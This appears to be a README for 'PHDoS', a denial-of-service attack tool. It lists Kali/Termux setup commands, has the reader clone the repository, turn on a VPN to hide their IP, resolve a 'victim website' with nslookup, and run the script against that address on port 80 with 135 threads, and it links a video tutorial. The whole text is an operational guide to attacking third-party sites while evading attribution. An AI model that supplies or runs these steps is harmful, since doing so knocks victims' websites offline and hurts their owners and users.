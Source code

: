 <b>Kali & Termux Compatible</b><br>
<b>Requirements:</b><br>
$ apt update<br>
$ apt upgrade<br>
$ apt install python<br>
$ apt install python2<br>
$ apt install python3<br>
$ apt install git<br>
$ apt install dnsutils<br>
$ git clone https://github.com/5inco/PHDoS<br>

First you need to activate a vpn to change your ip<br>

You need the <b>IP Address</b> of a website which you want to attack...<br>
New Terminal just type:<br>
$ nslookup victimwebsite.com<br>

Get the IP Address of a victim website<br>

<b>Installation & Usage:</b><br>
$ cd PHDoS/<br>
$ ls<br>
$ python3 phdos.py -s [Victim ip Address] -p 80 -t 135<br>
<br><b>Example:</b></br>
$ python3 phdos.py -s xx.xxx.xxx.xxx -p 80 -t 135<br>
<br>Video Tutorial Link: https://youtu.be/jA4Ecnm6WEk</br>

